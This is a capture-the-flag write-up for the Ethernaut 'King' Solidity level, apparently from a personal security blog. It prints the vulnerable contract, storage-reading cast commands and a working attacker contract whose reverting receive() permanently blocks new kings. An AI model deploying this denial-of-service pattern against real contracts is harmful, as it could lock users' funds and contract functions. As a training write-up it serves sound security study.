 ```yaml
---
title: Ethernaut - King - Solution
date: '2024-05-07'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - King CTF
---
```


# Ethernaut - King - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## Exploit

The goal of this level is to become the king forever.

First, we can inspect how much funds we have to send to the contract to become the new king:

```bash
cast storage <your level instance address> 1 --rpc-url $SEP_RPC_URL
# Result: 0x00000000000000000000000000000000000000000000000000038d7ea4c68000

cast to-dec 0x00000000000000000000000000000000000000000000000000038d7ea4c68000
# Result: 1000000000000000
```

This tells us that the prize is 1 Finney.

Second, we see that `receive()` sends funds to the current king before assigning the new king.
This means we can solve this level by deploying an attacker contract that contains

1. a function that allows it to become the new king and
2. a `receive()` function that always reverts.

In other words, we can use Remix to deploy the following attacker contract and subsequently call `becomeKing()` specifying a value of at least 1 Finney.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttacker {
    address public immutable LEVEL_INSTANCE;

    constructor(address levelInstance) {
        LEVEL_INSTANCE = levelInstance;
    }

    function becomeKing() external payable {
        (bool success, ) = payable(LEVEL_INSTANCE).call{value: msg.value}("");
        require(success, "Transfer failed");

    }

    receive() external payable {
        revert("Long live Marco XLII");
    }
}
```